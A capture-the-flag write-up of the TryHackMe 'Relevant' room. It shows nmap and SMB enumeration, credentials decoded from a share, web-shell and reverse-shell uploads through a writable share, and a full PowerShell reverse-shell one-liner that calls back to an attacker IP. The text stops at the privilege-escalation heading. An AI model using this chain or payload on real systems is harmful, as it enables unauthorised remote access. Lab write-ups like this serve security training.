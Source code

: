 # Revelant

![image](https://user-images.githubusercontent.com/5285547/129174199-a0b07f6d-f4bf-4392-9ac2-cbde55554e84.png)

Room link: https://tryhackme.com/room/relevant

## Enum 

### Nmap 

```
nmap -Pn -v 10.10.127.215

PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown

nmap -Pn -v -p80,135,139,445,3389,49663,49667,49669 -sCV 10.10.127.215

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-08-12T09:53:48+00:00
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-11T09:33:28
| Not valid after:  2022-02-10T09:33:28
| MD5:   f94f cb19 c957 e463 6a5a dc04 f356 0d18
|_SHA-1: 61a7 eb4a b3e7 72cf 6619 234f 2cd8 b2fd a709 7148
|_ssl-date: 2021-08-12T09:54:22+00:00; 0s from scanner time.
49663/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h24m01s, deviation: 3h07m50s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-12T02:53:43-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-12T09:53:43
|_  start_date: 2021-08-12T09:34:06
```

Nmap results

We can see from the results a the domain name is "Relevant", their are web portals on port 80,49663 (Microsoft-IIS/10.0 servers).  
This shows SMB is open, let's look into the SMB first. 

### SMB

```
$ smbclient -L 10.10.127.215                
Enter WORKGROUP\ac1d's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
SMB1 disabled -- no workgroup available
```

Connecting we get a file called passwords.txt

![image](https://user-images.githubusercontent.com/5285547/129176481-a8ae0710-f356-49c2-b0e2-18645e6b6d49.png)

passwords.txt

```
$ cat passwords.txt     
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk 
```

Decoded

```
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$
```

Trying psexec shows we have working creds for bob but not bill

![image](https://user-images.githubusercontent.com/5285547/129179521-7337874d-d25d-4905-8eb6-c30bb1d8061a.png)

![image](https://user-images.githubusercontent.com/5285547/129179581-59ddec12-1498-4cf0-9b59-53b232b8d73d.png)


At this point I got a bit stuck so decided to enum some more, I started on port 80 but didnt find anything.  
Then moved to port 49663
 
```
ffuf -u http://10.10.204.235:49663/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fc 403 -ic 

nt4wrksv                [Status: 301, Size: 159, Words: 9, Lines: 2]

#Remembering the file on the SMB share, I checked for it. 
http://10.10.204.235:49663/ntw4wrksv/passwords.txt
```

We have READ/WRITE access to the smb share so I tested a file upload which worked. 

![image](https://user-images.githubusercontent.com/5285547/129181840-bdaac284-f23e-42d8-abd6-5e383cf76e4e.png)

![image](https://user-images.githubusercontent.com/5285547/129181810-872aec0e-3db2-4211-ae3d-4a430c14dfe1.png)

Checking a few directorys we can find the webupload folder. 

![image](https://user-images.githubusercontent.com/5285547/129193912-7667cb4c-92d3-4936-894d-a50f19c81eee.png)

I also uploaded a rev.exe (go lang reverse shell to test and play with) 

![image](https://user-images.githubusercontent.com/5285547/129194080-b953b03e-ebfd-4f82-8120-c7a4ef0ddfbf.png)


Testing a meterpreter reverse shell (.exe) failed. So I tested a few more payloads until .aspx worked.

cmdasp.aspx shell located on kali /usr/share/webshells/aspx/

![image](https://user-images.githubusercontent.com/5285547/129187032-0f138d8c-da37-4928-8cbc-17ef57ad4022.png)

Using a powershell payload I get a reverse shell or use the golang shell i found online.

```
# http://10.10.204.235:49663/nt4wrksv/cmdasp.aspx
start c:\inetpub\wwwroot\nt4wrksv\rev.exe
```

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.8.153.120",8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

![image](https://user-images.githubusercontent.com/5285547/129194610-912d5e6e-8401-486d-b752-704fc473f3bb.png)

The asp shell was much more stable so I ended up using that. 

Navigating to Bob's Desktop we can find the user.txt flag. 

![image](https://user-images.githubusercontent.com/5285547/129199055-38f6c5ae-cb52-4cfc-a3b2-0796d1dbccbf.png)

---

## Root

Checking the system

![image](https://user-images.githubusercontent.com/5285547/129198975-1c8d84d8-b2c5-4614-be16-33174cc062b6.png)


